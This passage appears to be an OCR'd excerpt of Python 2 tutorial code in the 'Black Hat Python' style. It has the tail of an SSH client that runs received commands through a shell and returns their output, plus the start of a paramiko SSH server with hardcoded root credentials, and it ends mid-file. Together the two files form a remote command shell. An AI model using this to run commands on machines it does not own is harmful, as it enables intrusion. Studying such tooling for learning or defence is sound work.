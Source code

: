 ```python
            command = ssh_session.recv(1024)    
            try:
                cmd_output = subprocess.check_output(command, shell=True)
                ssh_session.send(cmd_output)
            except Exception, e:
                ssh_session.send(str(e))
        client.close()
    return
ssh_command('127.0.0.1', 'root', '123456', 'This is test message!!!!!',8080)
```
**bh_sshserver.py**
```python
#coding=utf-8
import socket
import paramiko
import threading
import sys

if len(sys.argv[1:]) != 2:
    print "Usage: ./bh_sshserver.py [localhost] [localport] "
    print "Example: ./bh_sshserver.py 127.0.0.1 8080"
    sys.exit(0)

# 使用 Paramiko示例文件的密钥
#host_key = paramiko.RSAKey(filename='test_rsa.key')
# 或者自己创建一个密钥文件
host_key = paramiko.RSAKey(filename='/root/.ssh/id_rsa')
#实现SSH服务端必须继承ServerInterface，并实现里面相应的方法
class Server(paramiko.ServerInterface):
    def __init__(self):
    #执行start_server()方法首先会触发Event，如果返回成功，is_active返回True
        self.event = threading.Event()
    #当is_active返回True，进入到认证阶段
    def check_auth_password(self, username, password):
        if (username == 'root') and (password == '123456'):
            return paramiko.AUTH_SUCCESSFUL
        return paramiko.AUTH_FAILED
    #当认证成功后,打开一个Channel
    def check_channel_request(self, kind, chanid):
        if kind == 'session':
			 return paramiko.OPEN_SUCCEEDED
        return paramiko.OPEN_FAILED_ADMINISTRATIVELY_PROHIBITED
#命令行接收IP与port
server = sys.argv[1]
ssh_port = int(sys.argv[2])
try:
	#TCP socket
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    #这里value设置为1，表示将SO_REUSEADDR标记为TRUE，操作系统会在服务器socket被关闭或服务器进程终止后马上释放该服务器的端口，否则操作系统会保留几分钟该端口。
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
	#绑定ip和端口
    sock.bind((server, ssh_port))
	#最大连接数为100
    sock.listen(100)
    print '[+] Listening for connection ...'
    client, addr = sock.accept()
except Exception, e:
    print '[-] Listen failed: ' + str(e)
    sys.exit(1)
print '[+] Got a connection!'

try:
    #用sock.accept()返回的socket实例化Transport
```